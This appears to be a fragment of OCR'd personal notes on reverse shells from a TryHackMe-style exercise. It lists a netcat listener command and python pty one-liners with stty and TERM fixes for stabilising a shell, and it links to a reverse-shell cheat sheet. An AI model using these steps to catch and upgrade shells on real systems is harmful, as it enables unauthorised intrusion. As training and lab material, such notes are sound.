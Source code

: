 php reverse.shell

rlwrap nc -lvnp <port>

“no tty present and no askpass program specified.” 
python3 -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty;pty.spawn("/bin/bash")', 
export TERM=xterm
stty raw -echo; fg. 
https://www.kumaratuljaiswal.in/2021/01/tryhackme-intro-to-shell-all-about-shell.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
